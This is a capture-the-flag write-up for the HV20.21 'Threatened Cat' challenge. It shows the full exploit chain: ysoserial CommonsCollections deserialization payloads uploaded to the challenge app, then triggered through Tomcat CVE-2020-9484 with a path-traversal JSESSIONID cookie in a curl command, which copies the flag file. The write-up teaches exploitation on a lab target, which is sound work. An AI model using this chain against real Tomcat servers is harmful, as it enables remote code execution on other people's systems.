 # HV20.21 Threatened Cat

_You can feed this cat with many different things, but only a certain kind of file can endanger the cat._

_Do you find that kind of files? And if yes, can you use it to disclose the flag? Ahhh, by the way: The cat likes to hide its stash in `/usr/bin/catnip.txt`._

_**Note**: The cat is currently in hibernation and will take a few seconds to wake up._

---

![](cat-site.png)

I was fiddling a bit with the page, trying different file types. For example, a PNG image:

![](cat-image.png)

Then I noticed this:
```
/cat/;jsessionid=E6BA5F20B87ED0F4CC127E2F01763660
```

`jsessionid` points to a Java based app. Java is well-known for rather **insecure (de)serialization.**

I recalled doing something similar in the past using [ysoserial](https://github.com/frohoff/ysoserial) lib.

Let's download it and try a random payload:
```
$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections1 'sleep 5' > CommonsCollections1.ser
$ xxd CommonsCollections1.ser | head
00000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
00000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
00000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
00000030: 696f 6e48 616e 646c 6572 55ca f50f 15cb  ionHandlerU.....
00000040: 7ea5 0200 024c 000c 6d65 6d62 6572 5661  ~....L..memberVa
00000050: 6c75 6573 7400 0f4c 6a61 7661 2f75 7469  luest..Ljava/uti
00000060: 6c2f 4d61 703b 4c00 0474 7970 6574 0011  l/Map;L..typet..
00000070: 4c6a 6176 612f 6c61 6e67 2f43 6c61 7373  Ljava/lang/Class
00000080: 3b78 7073 7d00 0000 0100 0d6a 6176 612e  ;xps}......java.
00000090: 7574 696c 2e4d 6170 7872 0017 6a61 7661  util.Mapxr..java
```

Feed the cat with `CommonsCollections1.ser`:
```
Uploading CommonsCollections1.ser
[I]: Uploading File
[I]: Filename: CommonsCollections1.ser
[I]: Size: 1399 Bytes
[I]: Content-Type: application/octet-stream
[I]: File stored at /usr/local/uploads/CommonsCollections1.ser
[I]: Detected content: Java serialization data, version 5
[W]: Exactly this kind of things is threatening this cat
```

Great, we're on the right track. 

Browsing through the payload available in _ysoserial_, I was intrigued by
[FileUpload1](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/FileUpload1.java):
```
 * Yields:
 * - copy an arbitraty file to an arbitrary directory (source file is deleted if possible)
```

That's exactly what I need. Copy `/usr/bin/catnip.txt` into `/usr/local/uploads/`. However, this is not
the right payload...

## CVE-2020-9484

At first, we need some mechanism to _trigger the payload_. 

I was able to provoke an error by calling a non-existing path in the URL:

![](tomcat9034.png)

Now we know the exact Tomcat version. Maybe there is some vulnerability to exploit...

Googling for `tomcat 9.0.34 vulnerabilities` points to
https://www.cybersecurity-help.cz/vdb/apache_foundation/apache_tomcat/9.0.34/.

There is an RCE ([CVE-2020-9484](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484))!
Our setup matches perfectly the required conditions:
> The vulnerability allows a remote attacker to execute arbitrary code on the target system.

> The vulnerability exists due to insecure input validation when processing serialized data in uploaded files names. A remote attacker can pass specially crafted file name to the application and execute arbitrary code on the target system.

> Successful exploitation of this vulnerability may result in complete compromise of vulnerable system but requires that the server is configured to use PersistenceManager with a FileStore and the attacker knows relative file path from storage location.

Read [Apache Tomcat RCE by deserialization (CVE-2020-9484) – write-up and exploit](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/)
to understand how it works.

**The plan is**:
1) Upload the payload crafted with _ysoserial_
2) Trigger it using CVE-2020-9484

The last piece is to find out which payload does work. I started with `CommonsCollectionsX` as I have
seen it in the past. I got lucky on my 2nd try:
```
java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'cp /usr/bin/catnip.txt /usr/local/uploads/' > CommonsCollections2.session
```

Feed the cat with `CommonsCollections2.session`:
```
Uploading CommonsCollections2.session
...
[W]: This cat is really threatened, now
```

The message is different now, we are getting close!

The last step, trigger the payload:
```
$ curl -sH 'Cookie: JSESSIONID=../../../../../..//usr/local/uploads/CommonsCollections2' https://778fc77f-9870-4135-902c-981d0118c962.idocker.vuln.land/cat/
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception</p><p><b>Description</b> The server encountered an unexpected condition that prevented it from fulfilling the request.</p><p><b>Exception</b></p><pre>org.apache.commons.collections4.FunctorException: InvokerTransformer: The method &#39;newTransformer&#39; on &#39;class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl&#39; threw an exception
        org.apache.commons.collections4.functors.InvokerTransformer.transform(InvokerTransformer.java:137)
        org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
        java.base&#47;java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:713)
```

HTTP 500 is expected. The payload was executed. You can download the file with flag:

![](flag.png)

The flag is `HV20{!D3s3ri4liz4t10n_rulz!}`